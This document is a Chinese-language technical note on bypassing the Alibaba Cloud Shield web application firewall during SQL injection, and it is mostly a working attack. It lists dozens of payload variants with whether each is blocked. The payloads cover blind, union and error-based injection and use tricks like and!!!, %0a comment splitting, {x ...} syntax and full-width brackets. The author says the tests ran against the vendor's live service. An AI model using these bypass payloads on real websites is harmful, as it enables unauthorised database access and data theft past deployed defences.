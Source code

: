 # 0x00 矛与云盾

由于没有阿里云盾的试验环境，以下操作都在线上测试，总的来说阿里云还是比较不好绕的，因为对于`/**/  /*!*/` 他是强过滤，根本不能用，我们先来测试简单语句

```
and 1=1 拦截

&& 1=1 不拦截

or 1=1 拦截

|| 1=1 不拦截

and 1 不拦截

and 1= 拦截

and = 拦截

and 1> 不拦截

and 1>1 拦截

and 1>a 拦截

and 1>! 不拦截

```


通过简单的测试我们发现，他对 && || 过滤还是不是很严 ，and的话是不让用直接接入=号的，综合一下前面的知识,我们可以想到几个方法。


1. 不用and 和 or

2. 用and 在两边接入干扰字符 


```
and ~1=1   不拦截

and!!!1=1  不拦截

and 1-1    不拦截

and true 不拦截

and 1 不拦截

```


# 0x01 注入

1. 盲注

```
 and substr(1,1,1)='r' 拦截

 &&  substr(1,1,1)='r'  不拦截

 and!!!substr(1,1,1)='r' 不拦截

 and!!!substr((select),1,1)='r' 不拦截

 and!!!substr((select a()),1,1)='r' 不拦截

 and!!!substr((select user()),1,1)='r' 拦截


```

可以知道select 后面加入 常见函数会被拦截，所以我们可以 使用一定的东西来分割他 但是`/**/` 和`/*!*/` 是不能用的，所以最后想到 就是 注释符号

```
and!!!substr((select user-- (1)%0a()),1,1)='r' 不拦截  edu


```


测试一会儿发现他对某些关键词拦截还是很严格的，绕过应该是可以的，一些生僻的函数加点东西 他就不会拦截

```
and!!!substr((select @@`datadir`),1,1)='D'-- + 拦截                     yq
and!!!substr((select{x @@datadir}),1,1)='D' 不拦截
and!!!substr((select{x @@`datadir`}),1,1)='D'-- + 不拦截

```


这里比较难的是 from的绕过，虽然最后绕过了，但是感觉不是很完美


```
from 不拦截

from user 不拦截

select from user 拦截                edu

select all from user 拦截

select from(user) 拦截

select from{user} 拦截

select from[user] 不拦截

select from [user] 拦截



```


最后想到web+mysql好像编码的问题 也能让解析我们的中文字符 但是这种对环境要求比较大

```
and!!!substr((select{x username}from（users） limit 0,1),1,1)='D'

http://127.0.0.1/sqli/Less-1/?id=1%27 and!!!substr((select username from【users】 limit 0,1),3,1)='m'-- +

```


2. 联合


前面测试发现 内联注释不能使用了，只能靠括号之类的来干扰了

```
union select   不拦截

union select 1 拦截

union(select 1) 不拦截

union(select 1,2,3) 不拦截

```


3. 报错

```
and `updatexml`(1,select `user`%0a(),1) 

``` 

![mysql](./img/2.4.1.png)

![mysql](./img/2.4.2.png)


阿里云的需要深度探索才能绕过，规则还是比较困难的，相对于安全狗,因为edu 和yq的云盾好像版本不同，绕过的手法也要不一样,具体思路就是这样的,由于我直接在官网测试的，所以可能有点问题。



# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404